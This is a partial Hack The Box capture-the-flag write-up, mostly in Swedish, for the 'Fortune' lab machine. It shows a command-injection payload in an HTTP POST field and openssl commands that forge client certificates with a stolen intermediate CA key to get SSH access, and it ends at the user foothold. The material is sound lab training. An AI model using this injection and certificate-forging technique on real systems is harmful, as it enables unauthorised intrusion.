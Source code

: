 ```yaml
---
layout: single
title: Fortune - Hack The Box
excerpt: "Partial writeup.. "
date: 2019-06-25
classes: wide
header:
  teaser: /assets/images/htb-writeup-fortune/fortune_logo.png
  teaser_home_page: true
  icon: /assets/images/question-mark-white.png
  unreleased: false
categories:
  - hackthebox
tags:  
  - unknown os
  - insane
  - certificates
---
```


![](/assets/images/htb-writeup-fortune/fortune_logo.png){: style="float: right; width: 200px; margin-left: 2em"}

N/A<br><br><br><br><br><br><br>

----------------


# USER
## Enumeration
Basic enum shows port **22,80,443**. 443 har cert error, 80 anropar en db med fortunes, 22 saknar vi creds för

`dirb` visar inget spännande. Kör en crawl/audit i burp på `http://10.10.10.127` och ser att den är vulnerable för os command- och code injection.

Skickar POST Request till Repeater och söker mig runt i burken efter cert filer och användare:
```bash
POST /select HTTP/1.1
Host: 10.10.10.127
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Connection: close
Cache-Control: max-age=0
Referer: http://10.10.10.127/
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

db=fortune|ls -al /home
```

Hittar 3 användare: `bob`, `charlie` och `nfsuser`. `Bob` har massor av cert-filer vilket känns intressant. `Charlie` kommer man ej åt så chansar att `user.txt` finns här. `nfsuser` har en mer eller mindre tom hemkatalog

Plockar hem alla filer från bob så jag har följade filstruktur:
```bash
$ tree
.
├── bob
│   ├── ca
│   │   ├── certs
│   │   │   └── ca.cert.pem
│   │   ├── index.txt
│   │   ├── index.txt.attr
│   │   ├── intermediate
│   │   │   ├── certs
│   │   │   │   ├── ca-chain.cert.pem
│   │   │   │   ├── fortune.htb.cert.pem
│   │   │   │   ├── intermediate.cert.pem
│   │   │   │   └── intermediate.cert.srl
│   │   │   ├── crlnumber
│   │   │   ├── csr
│   │   │   │   ├── fortune.htb.csr.pem
│   │   │   │   └── intermediate.csr.pem
│   │   │   ├── index.txt
│   │   │   ├── newcerts
│   │   │   │   └── 1000.pem
│   │   │   ├── openssl.cnf
│   │   │   └── private
│   │   │       └── intermediate.key.pem
│   │   ├── newcerts
│   │   │   └── 1000.pem
│   │   ├── openssl.cnf
│   │   ├── serial
│   │   └── serial.old
│   └── dba
│       └── authpf.sql
```

För enkelhet skapa en dir som heter custom-certs utanför dir bob. Skapa custom cert-key samt request för bob och charlie (subj-info tagen från `bob/ca/index.txt` samt `bob/ca/intermediate/index.txt`) i nyskapade custom-cert dir'en:
```bash
openssl req -newkey rsa:4096 -keyout bob_key.pem -out bob_csr.pem -nodes -days 365 -subj "/C=CA/ST=ON/O=Fortune Co HTB/CN=Fortune Intermediate CA/emailAddress=bob@fortune.htb"

openssl req -newkey rsa:4096 -keyout charlie_key.pem -out charlie_csr.pem -nodes -days 365 -subj "/C=CA/ST=ON/O=Fortune Co HTB/CN=fortune.htb/emailAddress=charlie@fortune.htb"
```

Döp om filerna för enkelhetensskull:
```bash
mv bob_key.pem bob.key && mv bob_csr.pem bob.csr
mv charlie_key.pem charlie.key && mv charlie_csr.pem charlie.csr
```
```bash
$ ls -al
total 24
drwxr-xr-x 1 root root  108 Jun 26 14:25 .
drwxr-xr-x 1 root root  196 Jun 26 14:10 ..
-rw-r--r-- 1 root root 1716 Jun 26 14:11 bob.csr
-rw------- 1 root root 3272 Jun 26 14:11 bob.key
-rw-r--r-- 1 root root 1704 Jun 26 14:12 charlie.csr
-rw------- 1 root root 3272 Jun 26 14:12 charlie.key
```

Signera certificate requests med intermediate.key (pwd = htb/machines/fortune/custom-certs):
```bash
openssl x509 -req -days 365 -in bob.csr -CA ../bob/ca/intermediate/certs/intermediate.cert.pem -CAkey ../bob/ca/intermediate/private/intermediate.key.pem -CAcreateserial -out bob.crt

openssl x509 -req -days 365 -in charlie.csr -CA ../bob/ca/intermediate/certs/intermediate.cert.pem -CAkey ../bob/ca/intermediate/private/intermediate.key.pem -CAcreateserial -out charlie.crt
```

Konvertera .crt till .p12 för att kunna använda dem i Firefox, lämna password blankt (pwd = htb/machines/fortune/custom-certs):
```bash
openssl pkcs12 -export -out bob.p12 -inkey bob.key -in bob.crt -certfile ../bob/ca/intermediate/certs/intermediate.cert.pem
openssl pkcs12 -export -out charlie.p12 -inkey charlie.key -in charlie.crt -certfile ../bob/ca/intermediate/certs/intermediate.cert.pem
```

Importera charlie.p12 i Firefox och surfa in på https://10.10.10.127 för att få SSH key pair<br>
`options -> preferences -> advanced -> certificates -> view certificates -> your certificates -> import -> select charlie.p12 -> ok`

Tryck på "generate" och spara ner public key i `/root/.ssh/id_rsa.pub` (perm 644) samt private i `/root/.ssh/id_rsa` (perm 600)

Logga in som nfsuser med public key.
`ssh nfsuser@10.10.10.127`

